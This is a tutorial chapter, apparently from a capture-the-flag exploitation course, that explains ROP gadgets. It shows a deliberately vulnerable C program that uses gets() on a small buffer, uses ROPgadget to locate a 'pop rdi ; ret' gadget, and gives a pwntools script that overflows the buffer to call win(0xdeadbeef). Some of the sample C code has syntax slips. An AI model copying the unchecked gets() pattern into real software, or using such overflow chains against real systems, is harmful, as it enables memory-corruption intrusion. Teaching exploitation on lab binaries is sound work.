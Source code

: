 ```yaml
---
title: ROP Gadgets
date: 0005-01-01T00:00:08Z
draft: false
description: nil
toc: false
---
```


Remember in the previous chapter, we exploited this program;

```c
// gcc -no-pie win.c -o win
#include <stdio.h>

int win() {
  printf("you can't call me ;)")
}

int vuln() {
    char name[10];

    gets(&name);
    return 0;
}

int main() {
    vuln();
    return 0;
}

```

What if now we tweak it a little bit to add arguments to `win()`;

```c
// gcc -no-pie win.c -o win
#include <stdio.h>

int win(int argument) {

  if (argument == 0xdeadbeef) {
    printf("You Win!");
  }
  else {
    printf("You called me but you failed the check. You Lose!")
  }
  exit(0);
}

int vuln() {
    char name[10];

    gets(&name);
    return 0;
}

int main() {
    vuln();
    return 0;
}

```

In order to win, we have to call `win(0xdeadbeef)`. In fact, from our chapter on [How does Assembly work and introduction to the Stack.](/pwn/innerworkings/how_does_assembly_work), we know that we want to put `0xdeadbeef` into `rdi` since it's the first argument of the function.

However, how do we do that?

This is where ROP gadgets come in;

> ROP Gadgets are small snippets of assembly in the binary, that we can use to control the program

We will use the following [ROP Gadget Tool](https://github.com/JonathanSalwan/ROPgadget) to find ROP gadgets for us, in order to help us `win()`.

```
➜ ROPgadget --binary win | grep 'pop rdi ; ret'
0x000000000040121b : pop rdi ; ret
```

Using our ROP Gadget tool, we are able to find a gadget `pop rdi ; ret`, which allows us to pop any value of our choice into `rdi`, and then return. Since we also control our return address, we can decide where it returns. Hence we are able to create a chain of many instructions and returns.

With our `pop rdi` gadget, we can pop `0xdeadbeef` into `rdi` and call `win`, thus printing `You win!`.

We can craft our script.

## Exploit Script

```py

from pwn import *

p = process('./win')

poprdi = 0x40121b
win = 0x401142

payload = "A" * 18 # buffer 10 (name) + 8 (saved rbp)
payload += p64(poprdi) # pop rdi ; ret
payload += p64(0xdeadbeef) # argument
payload += p64(win) # win function

p.sendline(payload) # send payload as input
p.interactive() # manually control process
```

---

ROP gadgets are **much much more** than just popping into registers, and sometimes challenges require you to make the most out of very unique gadgets that you have to use in order to successfully pwn the binary.

Explore on!

<br><br>

---

<div style="text-align: right"> <a href="/pwn/rop/ret2libc1">Next Page: Return 2 Libc - The Concept</a> </div>

